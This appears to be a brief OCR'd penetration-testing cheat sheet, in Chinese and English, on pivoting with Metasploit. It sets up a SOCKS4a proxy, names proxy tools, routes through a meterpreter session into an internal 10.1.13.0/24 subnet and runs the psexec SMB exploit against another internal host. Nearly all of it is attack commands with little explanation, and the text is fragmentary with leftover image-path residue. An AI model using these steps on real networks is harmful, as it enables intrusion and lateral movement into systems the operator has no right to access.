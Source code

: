 	>use auxiliary/server/socks4a
	>set srvhost 0.0.0.0
	>set srvport 1080
	>run
	多层网络
	再多配置个端口
	Win: Proxifier& Sockscap64
	Linux: proxychains& 浏览器
	&
	meterpreter > ipconfig 
	IP Address : 10.1.13.3 
	meterpreter > run autoroute -s 10.1.13.0/24 
	meterpreter > run autoroute -p 
	10.1.13.0 255.255.255.0 Session 1 
	meterpreter > bg 
	msf auxiliary(tcp) > use exploit/windows/smb/psexec 
	msf exploit(psexec) > set RHOST 10.1.13.2 
	msf exploit(psexec) > exploit 
